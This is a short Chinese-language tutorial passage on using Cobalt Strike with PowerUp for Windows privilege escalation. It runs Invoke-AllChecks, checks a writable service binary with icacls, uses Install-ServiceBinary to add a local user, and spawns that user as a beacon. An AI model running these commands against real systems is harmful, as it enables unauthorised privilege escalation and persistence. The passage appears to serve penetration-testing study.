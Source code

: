 
输入`powershell Invoke-AllChecks`, PowerShell脚本会快速帮我们扫描系统的弱点, 此处扫描出一个正在运行的服务: `Protect_2345Explorer.exe`

<img src="Cobalt Strike的使用/image-20221009165316137.png" alt="image-20221009165316137" style="zoom:67%;" />



查看此服务的权限情况: `shell icacls "C:\Program Files (x86)\2345Soft\2345Explorer\Protect\Protect_2345Explorer.exe"` , 发现User组的用户对此服务拥有完全控制的权限			

![image-20221009165836953](Cobalt Strike的使用/image-20221009165836953.png)

> F表示此用户拥有完全控制的权限
>
> RX表示此用户没有权限	



添加系统用户: `powershell Install-ServiceBinary -ServiceName Protect_2345Explorer -UserName test2 -Password 123456`

然后再查看当前所有用户及其组: `net user`

![image-20221009224812884](Cobalt Strike的使用/image-20221009224812884.png)



让新建的系统用户上线: 执行->Spawn As, 然后输入用户的账号与密码, 随后CS显示test2上线
